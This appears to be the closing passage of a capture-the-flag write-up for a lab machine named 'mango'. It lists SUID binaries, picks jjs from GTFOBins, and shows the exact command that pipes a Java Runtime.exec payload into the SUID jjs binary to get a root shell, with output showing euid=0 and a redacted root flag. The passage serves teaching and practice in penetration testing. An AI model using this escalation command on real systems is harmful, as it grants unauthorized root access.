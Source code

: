     -rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
    -rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
    -rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
    -rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
    -rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
    -rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo
    -rwsr-xr-- 1 root systemd-resolve 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
    -rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
    -rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
    -rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newgidmap
    -rwsr-sr-x 1 root root 18161 Jul 15  2016 /usr/bin/run-mailcap
    -rwsr-xr-x 1 root root 76496 Jan 25  2018 /usr/bin/chfn
    -rwsr-xr-x 1 root root 44528 Jan 25  2018 /usr/bin/chsh
    -rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
    -rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
    -rwsr-xr-x 1 root root 18448 Mar  9  2017 /usr/bin/traceroute6.iputils
    -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
    -rwsr-xr-- 1 root messagebus 42992 Jun 10 18:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 101240 Mar 15  2019 /usr/lib/snapd/snap-confine

We search for the binaries on GTFObins and [jjs](https://gtfobins.github.io/gtfobins/jjs/#suid)
get our attention. We can directly use the gtfobins command but the process just hang.

    :::text
    admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-/bin/jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo sh -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
    # 

We modify the command to use `/bin/bash` instead of `sh` and it work (the user input are
not prompted when typing but when you hit enter it gives the command result).
The first command is `id` the second is `cat /root/root.txt`.

    :::text
    admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo /bin/bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo /bin/bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
    bash-4.4# uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
    bash-4.4# 8a8ef<redacted>

# Wrapping up

The NoSQL injection was quit fun. Doing it manually with Burp was really
interesting.

The `jjs` privilege escalation was not really hard.

